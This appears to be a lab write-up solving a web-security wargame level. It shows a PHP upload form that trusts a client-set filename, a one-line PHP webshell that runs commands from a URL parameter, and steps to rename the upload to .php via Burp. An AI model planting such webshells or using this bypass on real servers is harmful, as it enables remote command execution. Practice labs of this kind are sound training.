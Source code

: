 # Level 12
This level was fun to solve, we get to upload a simple webshell.

## Quest
We are presented with below page, with option to upload an image.

![Level 12 Image](./images/Level12.png)

Below is the backend code for this page. I'll provide relevant comments
```php
<? 
function genRandomString() {        // This function generates a random 10 digit string
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {     // generate a full path with 2 input parameters
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {   // It calls above function, with extension like jpg
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {   
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);   // returns full path starting with 'upload' directory


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />    // Set a random value of filename with .jpg extension
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } ?>
```

<br/><br/>

## Solution
First i'll try to upload a simple PHP shell and see what happens.<br/>
Our simple PHP shell
```php
<?php echo '<pre>' . shell_exec($_GET["cmd"]) . '</pre>' ?>
```
Above shell, executes command present in `cmd` query parameter in the URL.<br/>
We will see this with Burp

![Level 12 Solution](./images/Level12_solution.png)

Now, if we go to the URL where our image is uploaded, it *doesn't* execute our shell as it treats is like a `.jpg` file.
<br/><br/>

We again try to upload our shell but this time, we intercept the reqeust via burp and change the `filename` parameter to `shell.php`. Due to which our file gets uploaded with `.php` extension.
![Level 12.1 Solution](./images/Level12.1_solution.png)

<br/><br/>
We Test our shell by adding the query parameter `cmd=ifconfig`. We see that command gets executed and we recieve the output. Sweet!
![Level 12.2 Solution](./images/Level12.2_solution.png)
<br/>

Finally, we try to get the password for next Level
![Level 12.3 Solution](./images/Level12.3_solution.png)
<span id=green>Sucess!</span>
<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)

